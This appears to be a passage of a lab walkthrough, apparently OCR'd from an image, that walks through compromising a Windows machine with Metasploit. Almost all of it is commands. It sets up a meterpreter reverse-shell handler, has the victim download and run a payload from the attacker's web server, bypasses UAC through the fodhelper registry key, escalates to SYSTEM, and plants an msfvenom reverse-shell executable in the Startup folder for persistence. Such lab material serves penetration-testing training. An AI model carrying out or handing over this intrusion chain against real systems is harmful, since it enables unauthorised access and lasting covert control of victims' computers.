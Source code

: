 **Launch Exploit and Gain Initial Access:**

- Start the Apache server: `service apache2 start`.
- Open a new terminal and launch Metasploit: `msfconsole`.
- In Metasploit, set up the exploit:
    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set Lhost 10.10.1.13
    set Lport 4444
    run
    ```
- On victim machine, open a web browser, navigate to `http://10.10.1.13/share/`, and download the exploit file and run it.

**Elevate Privileges and Maintain Persistence:**

- Back in Metasploit, observe the opened Meterpreter session.
- Bypass UAC using the FodHelper Registry Key:
    ```bash
    background
    use exploit/windows/local/bypassuac_fodhelper
    set session 1
    show options
    set LHOST 10.10.1.13
    set TARGET 0
    exploit
    ```
- Once the session is opened, elevate privileges:
    ```bash
    getsystem -t 1
    getuid
    ```
- Navigate to the Startup folder:
    ```bash
    cd "C:\\ProgramData\\Start Menu\\Programs\\Startup"
    pwd
    ```
- Create a new payload for startup:
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp Lhost=10.10.1.13 Lport=8080 -f exe > payload.exe
    ```
- Upload the payload to the startup folder:
    ```bash
    upload /home/attacker/payload.exe
    ```

**Test Persistence**

- Switch to the Victim machine, sign in as Admin, and restart the system.
- After restart, switch back to attacker machine.
- Open a new terminal and launch Metasploit.
- Set up the handler again and exploit:
    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST 10.10.1.13
    set LPORT 8080
    exploit
    ```

---